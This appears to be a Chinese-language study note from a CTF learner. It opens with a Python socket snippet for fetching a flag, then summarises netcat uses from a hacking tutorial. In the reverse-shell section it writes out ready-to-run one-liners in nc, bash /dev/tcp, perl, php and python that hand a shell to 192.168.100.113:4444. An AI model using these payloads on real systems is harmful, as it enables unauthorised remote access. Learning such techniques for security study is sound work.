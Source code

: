   ```
content=''
for i in range(num):
	content+=former
content+=last
s.sendall(content)
flag = s.recv(1024)
print "Received:", repr(flag)
```

瞎查瞎改了半天总算是会了用py在nc里交互？喜大普奔x感觉以前也有类似的情况一定是错觉呜呜呜

看到一个神奇的东西？[差不多的情况](https://unix.stackexchange.com/questions/355216/getting-output-from-netcat-decoding-it-and-returning-an-output) 但是感觉他的解决好复杂？虽然条理清晰得无法反驳？？？

整理一波 [nc各种用法](https://www.hackingtutorials.org/networking/hacking-with-netcat-part-1-the-basics/) ：

> - Banner grabbing 获取服务信息
>
> - Raw connections 直接连接（如ftp
>
> - Webserver interaction 
>
>   - 使用`GET / HTTP/1.0`获取页面
>   - 传参`GET /user?name=arpit HTTP/1.1` 
>   - POST传参
>
>   ```
>   POST /login HTTP/1.1
>   Content-Type: application/x-www-form-urlencoded
>   Content-Length: 32
>
>   username=arpit&password=welcome //或json: {"id": 1092, "name": "Arpit"}
>   ```
>
> - File transfers 
>
>   主机监听`nc -lvp 8080 > /root/Desktop/transfer.txt`
>
>   攻击机连接`nc 192.168.100.107 8080 < /root/Desktop/transfer.txt` 

> - Reverse shells 传说中的反弹shell！终于找到原理惹！
>
>   `nc –lvp 4444` 
>
>   - linux `nc 192.168.100.113 4444 –e /bin/bash`
>   - windows `nc.exe 192.168.100.113 4444 –e cmd.exe`
>
>   无netcat时:
>
>   - bash `bash -i >& /dev/tcp/192.168.100.113/4444 0>&1` 
>   - perl `perl -e ‘use Socket;$i=”192.168.100.113″;$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’`
>   - php `php -r ‘$sock=fsockopen(“192.168.100.113”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’` 
>   - python `python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.100.113”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’`
>
>   ![img](https://www.hackingtutorials.org/wp-content/uploads/2016/11/Netcat-reverse-shell.jpg)
>
> - Bind shells 正向连
>
>   ![img](https://www.hackingtutorials.org/wp-content/uploads/2016/11/Netcat-bind-shell.jpg)

